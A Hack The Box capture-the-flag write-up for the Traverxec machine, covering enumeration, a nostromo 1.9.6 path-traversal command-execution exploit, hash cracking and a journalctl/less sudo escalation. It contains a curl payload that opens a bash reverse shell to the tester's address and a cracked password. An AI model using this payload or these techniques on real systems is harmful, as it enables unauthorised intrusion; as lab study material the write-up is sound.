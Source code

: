 ```yaml
---
title: "[HTB] Machine: Traverxec"
description: "[HTB] Machine: Traverxec"
date: 2023-06-26
menu:
  sidebar:
    name: "[HTB] Machine: Traverxec"
    identifier: htb-machine-traverxec
    parent: htb-machines-linux
    weight: 10
hero: images/traverxec.png
tags: ["HTB"]
---
```


# Traverxec
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 19:35 BST
Nmap scan report for 10.10.10.165 (10.10.10.165)
Host is up (0.096s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.10 seconds
```
- Web server

![](./images/1.png)

- `gobuster`

```
└─$ gobuster dir -u http://10.10.10.165 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.165
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/27 19:39:09 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://10.10.10.165/img/]
/icons                (Status: 301) [Size: 314] [--> http://10.10.10.165/icons/]
/css                  (Status: 301) [Size: 314] [--> http://10.10.10.165/css/]
/lib                  (Status: 301) [Size: 314] [--> http://10.10.10.165/lib/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.10.165/js/]
```

## Foothold
- From `nmap` results we see `nostromo 1.9.6`
  - Check `searchsploit`

![](./images/2.png)
![](./images/3.png)

- We can test `poc`

![](./images/4.png)
![](./images/5.png)

- It works
  - Let's get a reverse shell
  - `curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.7/6666 0>&1"'`

![](./images/6.png)
![](./images/7.png)

## User
- Let's enumerate with `linpeas`
  - Found `.htpasswd` and `nhttpd.conf`
  - Starts hashcat, since it will take a while to crack
    - `echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > david.hash`
    - `hashcat -m 500 david.hash /usr/share/wordlists/rockyou.txt --username`
    - Resulted in `david:Nowonly4me`
    - `su` doesn't work

![](./images/8.png)
![](./images/9.png)

- In `nhttpd.conf` we can see `homedirs` parameter set to `/home`
  - According to [docs](http://www.nazgul.ch/dev/nostromo_man.html), it means that 

![](./images/10.png)

- So we can visit `http://10.10.10.165/~david/`


![](./images/11.png)

- From the config file we also saw that `homedirs_public` is set to`public_www`
  - Which means that there is `public_www` folder inside `/home/david` which probably can be accessed as `www-data` user

![](./images/12.png)

- I tried sending file via `nc` but it didn't work
  - Then I tried downloading it using `wget` since we have creds for `david` and config states that it uses `.htpasswd` for authentification

![](./images/13.png)

- After downloading `tar` file, we see that it contains david's key
  - Which is protected, so let's crack it with `john`

![](./images/14.png)

- Let's connect using the key

![](./images/15.png)

## Root
- Let's enumerate for privesc again
  - We see `bin` folder with script inside

![](./images/16.png)
![](./images/17.png)

- We see that `journalctl` is executed as `sudo`
  - Thus `david` is a `sudoer`
  - Let's check `GTFOBins`
  
![](./images/18.png)

- So the trick here was that we need to shrink the terminal, so that `journalctl` will pipe stdout to `less`
  - Based on script we have 5 lines
  - We shrink terminal to less than 5
  - Output from the `journalctl` will be sent to `less` as root
  - And we can type `!/bin/bash` to get us a root shell

![](./images/19.png)
![](./images/20.png)
